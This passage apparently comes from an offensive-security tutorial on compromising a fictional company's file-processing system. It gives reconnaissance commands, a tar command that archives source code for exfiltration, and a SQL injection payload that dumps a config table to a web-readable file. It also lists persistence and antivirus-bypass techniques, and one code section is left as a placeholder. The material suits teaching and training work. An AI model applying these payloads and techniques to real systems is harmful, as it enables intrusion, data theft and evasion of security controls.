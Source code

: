 **Stage 2: Processing System Reconnaissance**
```
Command: ps aux | grep castle
Result: Discover running Castle Securities services and configurations
Command: find /opt/castle -name "*.py" | head -20
Result: Locate algorithm source code and configuration files
```

**Stage 3: Algorithm Data Extraction**
```
Command: tar -czf /tmp/algorithm-data.tar.gz /opt/castle/algorithms/
Upload: Malicious PDF triggering file exfiltration via processing system
Result: Algorithm source code and training data extraction
```

**Stage 4: Database Access Through Processing Integration**
```
CSV Injection: File processed by database import system
Payload: '; COPY (SELECT * FROM algorithm_config) TO '/var/www/html/data.txt'; --
Result: Database content extraction through CSV processing
```

Multi-stage orchestration transforms individual file vulnerabilities into comprehensive system compromise.

### Persistence and Data Exfiltration

File processing system compromise enables establishing persistence and systematic data exfiltration while avoiding network-based data loss prevention systems.

[PLACEHOLDER:CODE Name: File-based persistence and data exfiltration system. Purpose: Uses compromised file processing systems to establish persistent access and extract algorithm data through file-based channels that bypass network monitoring. Value: High.]

Establish persistence through file processing compromise:

**File System Persistence**:
```
Scheduled Processing: Files that trigger periodic processing with embedded commands
Configuration Injection: Modify processing system configuration files
Log File Manipulation: Inject commands into processed log files
Template Modification: Modify document processing templates with embedded scripts
```

**Data Exfiltration Through Processing Systems**:
```
Document Generation: Trigger report generation containing algorithm data
Email Integration: Use notification systems to email extracted data
File Transformation: Embed data in processed document formats
Archive Creation: Generate backup archives containing algorithm source code
```

**Processing System Backdoors**:
```
Content Analysis Bypass: Modify content analysis systems to ignore malicious files
Virus Scanning Bypass: Whitelist malicious files in virus scanning configuration
Format Converter Abuse: Use format conversion to transform and exfiltrate data
Database Integration Abuse: Use database processing to extract and transform data
```
